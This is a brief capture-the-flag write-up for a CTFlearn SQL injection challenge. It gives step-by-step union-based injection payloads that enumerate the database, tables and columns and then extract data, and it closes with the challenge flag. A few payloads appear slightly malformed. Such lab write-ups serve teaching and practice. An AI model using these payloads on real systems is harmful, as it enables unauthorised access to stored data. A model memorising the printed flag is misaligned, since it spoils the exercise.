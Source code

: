 ## basicInjection 

viewing the [pagesource](https://web.ctflearn.com/web4/)

there are some hints like try these usernames where the username Luke gives us valid page

by using this we can check for basic sql injection for example try `Luke' and 1=1#` if the page reacts as expected
 
then sql injection can be performed, and if you want you can double check it by a wrong input like `Luke' and 1=2#`

this will not give any output. Now i identified how many columns are there  using the order by statement

(i.e)`Luke' union order by 2#` after some trials i found that it has two columns, so i used the select statement to 

get the database name

`Luke' union select database(),null`

and then i queried for the table names 

`Luke' union select table_name,null from information_schema.tables where table_schema='webfour'`

and surprisingly there is only one table and then i just queried for the columns

`Luke' union select column_name,null from information_schema.columns where table_name='webfour'#`

 there are only two columns so i just select the two columns

`Luke' union select name,data from webfour#`

voila i got the flag

`CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`